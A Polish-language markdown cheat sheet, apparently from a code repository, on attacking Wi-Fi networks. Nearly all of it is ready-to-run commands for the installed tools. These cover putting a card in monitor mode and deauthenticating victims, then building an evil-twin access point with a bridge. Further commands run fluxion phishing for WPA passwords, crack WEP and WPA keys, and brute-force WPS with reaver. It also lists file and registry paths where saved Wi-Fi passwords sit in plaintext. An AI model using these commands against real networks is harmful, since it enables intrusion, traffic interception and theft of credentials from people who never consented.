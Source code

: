 ### Do zainstalowania
* wireshark + libpcap (biblioteka powinna się zainstalować wraz z wiresharkiem)
* [aircrack-ng](https://www.aircrack-ng.org/)1
* [reaver, wash](http://tools.kali.org/wireless-attacks/reaver)
* [fluxion](https://github.com/deltaxflux/fluxion) - ma sporo zależności


### Podstawy
* budowa ramek 802.11
* protokół połączenia
* konfiguracja karty sieciowej
    ```
    wlp5s0/wlp5s0mon - interfejs bezprzewodowy
    enp2s0 - interfejs po kablu
    at0 - crated by airbase-ng

    # troche informacji
    ifconfig/iwconfig
    iwlist wlp5s0 channel
    ip link show wlp5s0
    iw reg get


    systemctl stop network
    killall wpa_supplicant
    killall dhclient

    ifconfig wlp5s0 down
    iwconfig wlp5s0 mode monitor
    ifconfig wlp5s0 up

    # lub
    airmon-ng check kill
    airmon-ng start wlp5s0
    ```


### Acess-Point scanning
```
#wszystkie AP w zasięgu
iwlist wlp5s0 s

# lub
airodump-ng  wlp5s0 <--essid xxx> <--channel 36> <--write dump_file>

# filtrowanie wireshak
wlan_mgt.ssid == "ESSID/BSSID"
wlan.bssid == mac
wlan.sa == mac

# lub Kismet
```


### deauth
```
aireplay-ng --deauth 0 -a <BSSID> -c <target MAC> wlp5s0
# lub
airdrop-ng -i wlp5s0 -r rule_file
```
* Management Frame Protection


### MITM
* zapamiętane sieci
    ```
    #lista zapamiętanych
    nmcli -p c

    # Na maszynach plaintextem
        Windows:
            xp - HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\WZCSVC\Parameters\Interfaces
            nowsze - c:\ProgramData\Microsoft\Wlansvc\Profiles\Interfaces
        NetworkManager: 
            fedora - /etc/sysconfig/network-scripts/keys-*
            debian/ubuntu - etc/NetworkManager/system-connections/
        wpa_supplicant:
            /etc/wpa_supplicant/wpa_supplicant.conf
    ```

* evil twin
    ```
    # znaleźć MAC ofiary, dane o połączonym AP 
    # wzmocnić kartę (max w Polsce: 20dBm)
        iwconfig wlp5s0 txpower 20
    # postawić nasz fałszywy AP
        airbase-ng -a <BSSID here> --essid <ESSID here> -c <channel here> wlp5s0
    # odłączyć nasz cel (albo wszystkich) od obecnego AP na kilka sekund
    # stworzyć bridge (połączenie z internetem dla ofiary)
        brctl addbr evil
        brctl addif evil enp2s0
        brctl addif evil at0
        ifconfig enp2s0 0.0.0.0 up 
        ifconfig at0 0.0.0.0 up
        ifconfig evil up
        dhclient evil & 
    ```

* fluxion, czyli hasła WPA via phishing
    ```
    git clone https://github.com/deltaxflux/fluxion
    ./Installer.sh
    ./fluxion
    ```


### WEP
* łamanie
    ```
    # odpal interfejs w trybie monitor
    # przetestuj
         aireplay-ng -c <channel> -e <essid> -a <target AP bssid>  wlp5s0mon
    # łap IV
        airodump-ng -c <channel> --bssid <target bssid> -w output wlp5s0mon
    # w osobnym terminalu połącz się z AP (żeby móc tworzyć IV)
         aireplay-ng -1 0 -e <essid> -a <target AP bssid> -h <our MAC> wlp5s0mon
    # rób jeszcze więcej IV via ARP request-replay
         aireplay-ng -3 -b <target AP bssid> -h <our MAC> wlp5s0mon
    # złam klucz bazując na IV
         aircrack-ng -b <target AP bssid> output*.cap
    ```

* łączenie z AP bez hasła
    `easside-ng`

* nawet lepsze ataki: patrz. wesside-ng

### WPA/WPA2
* tkiptun-ng, docelowo umożliwiający wstrzykiwanie pakietów (https://www.aircrack-ng.org/doku.php?id=tkiptun-ng), lepiej używać AES
* WPA(2) nie zapewnia 'forward secrecy', jeśli znasz hasło/PMK, deszyfrujesz cały ruch
    ```airdecap-ng -l -e <essid> -p <password> sniffed.pcap```
* łamanie słownikowe
    ```
    # automatycznie przechwyć wszystkie handshakes, dodatkowo połam znalezione WEPy ;p
        besside-ng -W -c <channel> -b <target AP bssid> wlp5s0mon
    # teraz wrzuć to na http://wpa.darkircop.org/index.php
    # albo użyj aircrack-ng ze słownikiem
        aircrack-ng -w slownik -b <target AP bssid> wpa.cap
    ```

* Wersja enterprise - bezpieczniejsza


### EAP-MD5 czy EAP-LEAP (złamane)
### RADIUS

### WPS
* Super zue
* łamanie
    ```
    # wykrycie WPS
        wash -i wlp5s0mon -s -C
    # teraz
        reaver -i wlp5s0mon -b <target AP bssid> -vv -d 0 --dh-small
    ```
